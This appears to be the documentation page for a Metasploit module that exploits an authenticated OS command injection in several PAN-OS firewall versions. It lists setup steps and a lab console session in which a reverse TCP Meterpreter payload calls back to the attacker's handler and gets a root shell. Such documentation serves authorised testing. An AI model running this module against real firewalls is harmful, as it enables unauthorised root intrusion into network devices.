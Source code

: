 This module exploits an authenticated OS Command Injection vulnerability in PAN-OS versions: <10.0.1, <9.1.4 and <9.0.10

## Vulnerable Application

A Palo Alto Firewall demo can be requested at the following [link](https://www.paloaltonetworks.com/company/request-demo)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module 
1. Receive a Meterpreter session as the `root` user.

## Scenario: PAN-OS 10.0.0

```
msf6 > use linux/http/panos_auth_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/panos_auth_rce) > set rhosts 192.168.2.196
rhosts => 192.168.2.196
msf6 exploit(linux/http/panos_auth_rce) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/panos_auth_rce) > set PASSWORD N0tpassword!
PASSWORD => N0tpassword!
msf6 exploit(linux/http/panos_auth_rce) > run

[*] Started reverse TCP handler on 192.168.2.114:4444
[*] Authenticating...
[+] Successfully obtained api key
[*] Exploiting...
[*] Sending stage (3020772 bytes) to 192.168.2.196
[*] Meterpreter session 1 opened (192.168.2.114:4444 -> 192.168.2.196:51132) at 2022-08-16 09:01:47 -0400
[*] Command Stager progress - 100.00% done (1326/1326 bytes)
meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : PA-VM-10-0-0.home
OS           : Red Hat  (Linux 3.10.0-957.21.3.10.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
